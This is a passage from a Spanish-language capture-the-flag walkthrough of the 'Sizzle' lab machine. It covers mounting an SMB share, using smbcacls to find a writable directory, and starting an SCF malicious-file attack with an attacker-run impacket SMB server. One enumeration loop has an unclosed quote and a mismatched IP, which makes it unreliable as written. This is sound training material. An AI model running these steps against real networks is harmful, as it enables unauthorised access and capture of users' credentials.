 Aqui vemos muchos directorios y es bastante dificil ver todo lo que hay desde smbclient. Nos creamos una montura para visualizar este recurso.

```bash
mkdir /mnt/smb
mount -t cifs "//10.10.10.103/Department Shares" /mnt/smb
cd /mnt/smb
tree
cd Users
```
## Vulnerability Assessment {-}

### Recurso READ ONLY escribible {-}

Algo interesante con smb es que los derechos que vemos desde la montura no son los derechos reales del recurso compartido. Podemos usar de **smbcacls** para
controlar los derechos reales del directorio compartido.

```bash
smbcacls "//10.10.10.103/Department Shares" Users/amanda -N
``` 

Aqui vemos el derecho real de este directorio:

```{r, echo = FALSE, fig.cap="smbcacls rights", out.width="90%"}
    knitr::include_graphics("images/Sizzle-smbcacls-real-rights.png")
```

Como tenemos una montura podemos crear un script que nos permite enumerar los directorios para saber si hay un directorio con derechos de escritura.

```bash
cd /mnt/smb/Users
ls -l | awk 'NF{print $NF}' | while read directory; do echo -e "\n[+] Directory $directory; smbcacls "//10.10.10.10/Department Shares" Users/$directory -N | grep -i everyone ; done
```

Vemos que se puede escribir en el directorio Public. Creamos un fichero malicioso en este directorio.


### SCF fichero malicioso para smb {-}

Buscando por internet con las palabras `smb malicious file`, encontramos una possiblidad de injectar un fichero malicioso de typo SCF. Esta vulnerabilidad
consiste injectar una peticion a la maquina de atacante a partir del momento que alguien vea el icono del fichero creado.

1. Creamos un recurso compartido a nivel de red

    ```bash
    cd content
    impacket-smbserver smbFolder $(pwd) -smb2support
    ```

1. Creamos el ficher scf malicioso en el directorio **Public**
